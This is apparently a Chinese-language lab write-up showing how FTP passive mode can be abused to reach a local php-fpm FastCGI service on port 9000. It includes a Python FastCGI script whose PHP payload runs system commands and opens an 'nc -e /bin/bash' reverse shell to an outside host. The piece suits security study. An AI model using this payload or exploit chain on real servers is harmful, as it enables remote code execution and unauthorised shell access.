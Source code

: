 ### ftp passive mode
ftp passive mode[4]
```
In the passive mode, the client uses the control connection to send a PASV command to the server and then receives a server IP address and server port number from the server, which the client then uses to open a data connection to the server IP address and server port number received.
```
我们试一下ftp passive mode。
使用[pyftpdlib](https://pypi.org/project/pyftpdlib/)测试，[basic_ftpd.py](https://github.com/giampaolo/pyftpdlib/blob/a92a51584c89a6a5b7799e091c7b427221a1857c/demo/basic_ftpd.py)，
我们设置passive_mode的ip和port，同时在php容器里面nc监听9000端口（为方便演示实验，缺少的bin文件都先准备好，如nc,lsof,xxd等）
```python
    handler.masquerade_address = '127.0.0.1'
    handler.passive_ports = range(9000, 9001)
```
同时在docker里面开启`nc -lvvp 9000`,在另一个终端里面执行`wget ftp://ftp_server_ip:2121/test`，可以看到nc界面显示`connect to [127.0.0.1] from localhost [127.0.0.1] 56976`，说明确实会去连接ftp指定的ip和port。接下来我们按照文章中的思路来验证。

### 环境准备
首先我们将php-fpm调整为监听9000端口。备份配置文件之后进行替换
`sed -i 's/\/run\/php\/php8.0-fpm.sock/127.0.0.1:9000/g' www.conf`
修改ngix配置
```
/etc/nginx/conf.d# sed -i 's/unix:\/run\/php\/php8.0-fpm.sock/127.0.0.1:9000/g' default.conf
```
重启php-fpm和nginx
```
/etc/init.d/php8.0-fpm restart

/etc/init.d/nginx reload
```
查看端口，发现监听了9000
```
./lsof -i:9000

php-fpm8. 137 root    8u  IPv4  44589      0t0  TCP localhost:9000 (LISTEN)

```

## 利用
### 验证数据包
抓取payload数据包，为方便演示，复制了nc到docker。前面我们使用nc存数据包，这里我们换另外一种方式，使用wireshark，找到发送到9000端口的数据包，右键Follow->TCP Stream，选择发往9000端口，Raw格式的数据包，保存出来。
```python
from pyfcgiclient.fpm import FPM

phpfpm = FPM(
    host='127.0.0.1',
    port=9000,
    #sock="/run/php/php8.0-fpm.sock",
    document_root='/usr/share/nginx/html'
)

post_string = '<?php system("touch /tmp/hacked");system("nc REDACTED 8888 -e /bin/bash");?>'

status_header, headers, output, error_message = phpfpm.load_url(
    url='/index.php?a=b',
    content=post_string,
    remote_addr='127.0.0.1',
    cookies='c=d;e=f;'
)
print(output)
```
将数据包发送到127.0.0.1:9000，发现可以成功。